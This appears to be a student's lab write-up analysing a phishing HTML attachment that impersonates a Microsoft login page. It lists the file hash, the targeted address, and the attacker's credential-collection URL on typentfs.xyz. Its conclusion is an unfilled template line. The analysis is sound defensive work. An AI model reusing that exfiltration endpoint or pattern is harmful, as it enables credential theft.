





# Attachment Analysis Lab: Credential Harvester Investigation

## Objective
Investigate a phishing email attachment file to uncover information about a credential-harvesting attempt. Document key findings and answer specific questions regarding file details, hash, company impersonation, and more.

## Key Findings

1. **Phishing Email Attachment**
   - **Filename**: `MICROINV-US1070822.HTML`
   - **SHA256 Hash**: `0FC57290189ADECFE17F6BACBC515ED080CD63C54B282FDEF4EF3DFC598CDD1E`
   - **File Size**: `14.6 KB`

2. **Impersonated Company**
   - **Company Name**: Microsoft

3. **Phishing Target**
   - **Target Email Address**: `contact@securityblue.team`

4. **Microsoft Logo Filename in Phishing Page Source**
   - **Filename**: `microsoft_logo_ee5c8d9fb6248c938fd0dc19370e90bd.svg`

5. **Request URL Used in Credential Harvesting**
   - **Request URL**: `http://alia.typentfs.xyz/off.php?aaa=contact%40securityblue.team&ooo=test%40email.com&password=test&`

## Steps and Screenshots

### 1. Attachment File Analysis

- Description: This screenshot shows the properties of the phishing email attachment file (MICROINV-US1070822.HTML). Here, we confirm the filename, file size (14.6 KB), and the SHA256 hash value (0FC57290189ADECFE17F6BACBC515ED080CD63C54B282FDEF4EF3DFC598CDD1E). These details verify the attachment's identity and integrity, which is useful for confirming the file in future analysis or when cross-referencing with threat intelligence reports.
### 2. Impersonation Web Page

- Description: This screenshot displays the web page loaded from the attachment file, which is designed to impersonate Microsoft's login page. Notable elements such as the Microsoft logo, color scheme, and layout aim to trick users into believing this is an authentic Microsoft site. This imitation helps explain the phishing attempt's goal: to harvest Microsoft account credentials from unsuspecting users.### 3. Autofilled Target Information
### 3. Autofilled Target Information
- Description: In this step, we see that the phishing page has autofilled an email address (contact@securityblue.team). This suggests that the phishing attempt was specifically targeting this recipient, possibly using social engineering or previously obtained information to make the attack more convincing. This screenshot highlights the personalized nature of the phishing attempt, which may increase its chances of success.
### 4. Page Source and Microsoft Logo Filename

- Description: This screenshot shows the page source code, decoded using CyberChef, to locate the Microsoft logo file (microsoft_logo_ee5c8d9fb6248c938fd0dc19370e90bd.svg). Identifying this logo file in the source helps confirm the impersonation, as well as the level of detail put into making the page look legitimate. It also serves as evidence of the intent to mimic Microsoft branding in the phishing attack.
### 5. Credential Harvesting Request URL

- Description: This screenshot shows the Network tab in Developer Tools, capturing the off.php request with the URL where the entered credentials would be sent (http://alia.typentfs.xyz/off.php?aaa=contact%40securityblue.team&ooo=test%40email.com&password=test&). This URL reveals the endpoint used by the attacker to collect usernames and passwords entered on the fake login page, completing the credential harvesting process. This is critical evidence of the phishing attempt's mechanism.
## Conclusion
Summarize the phishing technique employed, the impersonation of a trusted company, and the targeting mechanism. Highlight the importance of careful analysis of email attachments.
